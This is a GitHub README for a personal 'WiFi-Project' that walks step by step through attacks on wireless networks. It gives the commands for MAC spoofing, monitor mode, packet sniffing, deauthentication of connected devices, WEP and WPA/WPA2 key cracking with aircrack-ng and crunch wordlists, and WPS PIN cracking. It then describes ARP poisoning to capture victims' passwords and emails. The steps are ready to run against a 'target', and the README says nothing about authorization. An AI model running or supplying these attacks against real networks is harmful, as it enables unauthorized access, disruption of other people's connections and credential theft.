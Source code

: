 # WiFi-Project

Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2. 🛰✔️

* ## Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

* ## Pre-connection attacks
1. Discover the networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff the packets from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```
This attack will always work ! The only way around it is to change the MAC address of the target machine.

* ## Gaining access

1. WEP cracking : (~100% success)
   
   Each packet is encrypted using a unique key stream.
   <br/> A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   <br/> The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1:
   <br/> Capture a large number of packets 
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2:
   <br/> Run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking : (~40% success)
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: 
           <br/> Run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           <br/> Catch the handshake using "airodump-ng".
           <br/> The handshake doesn't contain data that helps recover the key, but it contains data that can be used to check if a key is valid or not !
           <br/> Useful information in the handshake - MIC (Message Integrity Code): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
   
   Step 2: 
           <br/> Create a wordlist/dictionnary: "crunch" command
           <br/> Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           <br/> Argument "-d 1@" is specified for non-repeating letters.
           <br/> Combining the useful information to the wordlist will create new MICs, which will be compared to the real MIC
           <br/> if(new_MIC == MIC), then the word generating this MIC is the router's password !
           
   ```
   aircrack-ng file_.cap_containing_handshake -w word_list
   ```
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method:
            <br/> Exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
            <br/> The WPS feature allows clients to connect without a password.
            <br/> Authentication is done using a 8 digit pin, which can be cracked under a minute.

* ## Post-connection attacks

![https_bypass_blur](https://user-images.githubusercontent.com/64968597/134031635-1eb1f336-2dc0-4400-8f64-566ddcf44f2f.png)

1. ARP poisoning using bettercap, arpspoof, etc.:
   <br/> The captured packets are then easily analysed (using Wireshark) to gather passwords, emails, usernames, etc.
